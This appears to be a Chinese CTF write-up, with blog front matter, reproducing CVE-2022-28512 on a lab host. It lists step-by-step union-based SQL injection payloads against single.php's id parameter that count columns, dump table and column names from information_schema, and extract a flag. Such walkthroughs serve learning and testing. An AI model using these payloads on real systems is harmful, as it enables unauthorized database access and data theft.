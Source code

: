 ```yaml
---
title: CVE-2022-28512
subtitle:
date: 2025-03-14T12:31:43+08:00
slug: 2d91a81
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/05fc58e4d286d3c2c23eb706b30ff1a2.png)
发现并没有什么可用的，看到题目提示，直接访问

```
http://eci-2ze1snkmg1wia23zk99t.cloudeci1.ichunqiu.com/single.php
```

![](images/e11222ab8431fbb5c43b5b0193854d13.png)

| 1                                                            | 判断注入点   |
| ------------------------------------------------------------ | ------------ |
| 2                                                            | 爆字段个数   |
| 3                                                            | 爆显位位置   |
| 4                                                            | 爆数据库名   |
| 5                                                            | 爆数据库表名 |
| 6                                                            | 爆数据库列名 |
| 7                                                            | 爆数据库数据 |
| 用1=1和and 1=2测试，发现页面正常，排除数字型。测试到3'发现报错 |              |
| ![](images/82e637b055cc8953041960d1bedb2394.png)             |              |
| 根据报错信息可知，单引号闭合，构造playload                   |              |

```
id=3'--+
```

首先爆字段个数，注入语句，发现到10时报错，显示位数为9

```
id=3' order by 9--+
```

![](images/dca74f1d7bdda5cb1757b2f136091db5.png)


爆显位位置，注入语句为

```
id=-3' union select 1,2,3,4,5,6,7,8,9--+
```

![](images/cbc0db57a21de3ecd37f9245fbffa5af.png)
4可以注入，语句

```
id=-3' union select 1,2,3,database(),5,6,7,8,9--+
```

![](images/c487dc06770823d4581c85af07d07deb.png)
发现数据库名称为ctf，接下来爆破库表名

```
id=-3' union select 1,2,3,group_concat(table_name),5,6,7,8,9 from information_schema.tables where table_schema=database()--+
```

![](images/89c660d1c9aa6d8a001c66488f45d31e.png)
得到数据库表名

```
titles,page_hits,membership_userpermissions,membership_groups,blog_categories,membership_userrecords,membership_users,editors_choice,blogs,links,flag,banner_posts,membership_grouppermissions,visitor_info
```

关键词为flag，爆破列名，注入语句为

```
id=-3' union select 1,2,3,group_concat(column_name),5,6,7,8,9 from information_schema.columns where table_schema=database() and table_name="flag"--+
```

![](images/f05a9102e6bac84d5df3cb913a4e6833.png)
爆破数据库数据，注入语句为

```
id=-3' union select 1,2,3,group_concat(flag),5,6,7,8,9 from flag --+
```

![](images/b7b20b166cfe751b021eec72a47d47a8.png)
